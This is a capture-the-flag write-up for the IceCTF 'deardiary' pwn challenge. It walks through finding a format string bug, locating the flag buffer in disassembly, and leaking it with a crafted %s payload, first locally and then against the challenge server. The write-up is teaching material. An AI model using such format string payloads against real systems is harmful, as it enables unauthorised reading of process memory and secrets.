 #Good Morning

**Category:** Pwn
**Points:** 60
**Description:**

I don't have the official verbiage for the challenge.  Essentially you are provided the following binary and told it is being run at nc diary.vuln.icec.tf 6501.

[deardiary](./deardiary)

##Write-up
Initially we run the binary and see what kind of functionality exists within it.

```
root@kali:~# ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: Hello World!

1. add entry
2. print latest entry
3. quit
> 2
Hello World!

1. add entry
2. print latest entry
3. quit
> 3
```

Ok, looks pretty simple.  We supply some data and we can request that this data is then printed back out us.  Let's try a format string and see what it does.

```
root@kali:~# python -c 'print "1\nAAAA"+"%08x."*10+"\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AAAAf755b7b6.f76cf000.ffa00f98.ffa02398.00000000.0000000a.4eedee00.00000000.00000000.ffa023a8.

1. add entry
2. print latest entry
3. quit
```

Well, it definitely looks like we are dealing with a format string issue as we are dumping memory out. Also, note that the command I am using along with the format string sytax is setup to move through the menu of the binary by itself.  It lets me write a payload, read the payload back, and exit the program without any interaction.  Now, let's dump a little more and see if we can see our "AAAA"s.

```
root@kali:~# python -c 'print "1\nAAAA"+"%08x."*20+"\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AAAAf75df7b6.f7753000.ff8cab88.ff8cbf88.00000000.0000000a.ea2b0000.00000000.00000000.ff8cbf98.0804888c.ff8cab88.00000004.f7753c20.00000000.00000000.00000001.41414141.78383025.3830252e.

1. add entry
2. print latest entry
3. quit
```

There we go, it looks as if our input was read back off the stack in the 18th position.  Now we need to figure out what we can do.  Let's take a look at the binary and see if there is a good memory location to mess with.

```asm
             flag:
0804863d         push       ebp                                                 ; XREF=main+27
0804863e         mov        ebp, esp
08048640         sub        esp, 0x28
08048643         mov        eax, dword [gs:0x14]
08048649         mov        dword [ss:ebp+var_C], eax
0804864c         xor        eax, eax
0804864e         mov        dword [ss:esp+0x28+var_24], 0x0                     ; argument "oflag" for method j_open
08048656         mov        dword [ss:esp+0x28+var_28], 0x8048940               ; "./flag.txt", argument "path" for method j_open
0804865d         call       j_open
08048662         mov        dword [ss:ebp+var_10], eax
08048665         mov        dword [ss:esp+0x28+var_20], 0x100                   ; argument "nbyte" for method j_read
0804866d         mov        dword [ss:esp+0x28+var_24], 0x804a0a0               ; argument "buf" for method j_read
08048675         mov        eax, dword [ss:ebp+var_10]
08048678         mov        dword [ss:esp+0x28+var_28], eax                     ; argument "fildes" for method j_read
0804867b         call       j_read
08048680         mov        eax, dword [ss:ebp+var_C]
08048683         xor        eax, dword [gs:0x14]
0804868a         je         0x8048691

0804868c         call       j___stack_chk_fail

08048691         leave                                                          ; XREF=flag+77
08048692         ret        
                        ; endp
```

It looks as though the flag is on the server and being read in and saved into a buffer at ```0x804a0a0```.  There is a good paper on [exploiting format string vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf) that has a section dedicated to viewing memory at an arbitrary location.  Let's try to implement that.

```
root@kali:~# python -c 'print "1\n\xa0\xa0\x04\x08"+"%08x."*17+"%s\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> ��f763d7b6.f77b1000.ffdca6b8.ffdcbab8.00000000.0000000a.43679600.00000000.00000000.ffdcbac8.0804888c.ffdca6b8.00000004.f77b1c20.00000000.00000000.00000001.Local FLAG


1. add entry
2. print latest entry
3. quit
```

Running it locally gives us a test flag that we setup, so we should be able to go straight to the server and get the flag.

```
root@kali:~# python -c 'print "1\n\xa0\xa0\x04\x08"+"%08x."*17+"%s\n2\n3\n"'| nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> ��f7e57836.f7fce000.ffffc898.ffffdc98.00000000.0000000a.3ab59b00.00000000.00000000.ffffdca8.0804888c.ffffc898.00000004.f7fcec20.00000000.00000000.00000001.IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```

Perfect, our flag is ```IceCTF{this_thing_is_just_sitting_here}```.
